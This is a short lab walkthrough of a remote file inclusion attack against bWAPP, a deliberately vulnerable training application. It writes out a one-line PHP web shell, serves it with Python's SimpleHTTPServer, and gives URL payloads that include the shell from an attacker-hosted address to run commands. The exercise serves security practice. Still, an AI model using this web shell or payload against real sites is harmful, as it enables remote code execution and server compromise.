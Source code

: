 1. Create a simple PHP shell and save it as a txt file - <?php echo system($_GET['cmd']);?>
2. Run python SimpleHTTPServer on the location of the file - python -m SimpleHTTPServer
3. Go to RFI & LFI ecercise preform a RFI attack via the url and run the ls command - language=http://[attacker ip]:8000/rfi.txt&cmd=ls
4. Preform the same on medium difficulty where bWAPP automatically adds the extension .php to the file:
	Change the file name to rfi.php
	 language=http://[attacker ip]:8000/rfi&cmd=ls